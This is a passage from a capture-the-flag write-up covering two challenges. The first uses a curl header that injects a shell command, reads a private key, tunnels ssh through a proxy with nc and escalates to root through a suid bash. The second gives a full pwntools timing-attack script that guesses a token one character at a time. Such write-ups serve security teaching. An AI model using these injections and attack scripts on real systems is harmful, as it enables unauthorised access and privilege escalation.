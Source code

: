 `curl --proxy http://challenge.ctf.games:31835 http://permission-to-proxy-b278cfd5497f9976-55b7c44d84-lzpck:50000 -H "test:;ls -la home"`

Enumeration will find a readable private key under the user folder. You can then ssh in with a command like:

`ssh user@permission-to-proxy-b278cfd5497f9976-55b7c44d84-lzpck -i id_rsa -o "ProxyCommand=nc -X connect -x challenge.ctf.games:31835 %h %p"`

The bash binary on the box has the suid bit set, which can get you to root.

### Time will tell

The script for the server is provided, and simulates a proper python timing attack (python string comparison is o(n)). To beat, testing all possible characters and picking the one that takes 0.1 seconds longer than the others will allow you to build up the solution. I used the following script:

```python
import time

from operator import itemgetter
from pwn import *

TOKEN_SIZE = 8

def find_next_character(base, conn):
    timings = []

    print("Trying to find the character at position %s with prefix %r" % ((len(base) + 1), base))
    for _, character in enumerate("0123456789abcdef"):
        before = time.perf_counter()
        conn.sendline(base + character + "0" * (TOKEN_SIZE - len(base) - 1))
        data = conn.recvline()
        if b"Well done" in data:
            print(data)
            exit(0)
        after = time.perf_counter()
        timings.append({'character': character, 'timing': after - before})

    found_character = list(sorted(timings, key=itemgetter('timing'), reverse=True))[0]

    print("Found character at position %s: %r" % ((len(base) + 1), found_character['character']))
    return found_character['character']

def main():

    conn = remote(b'challenge.ctf.games', 31490)
    print(conn.recvuntil(": "))

    base = ''

    while len(base) != TOKEN_SIZE:
        next_character = find_next_character(base, conn)
        base += next_character
        print("\n\n", end="")

if __name__ == '__main__':
    main()
```
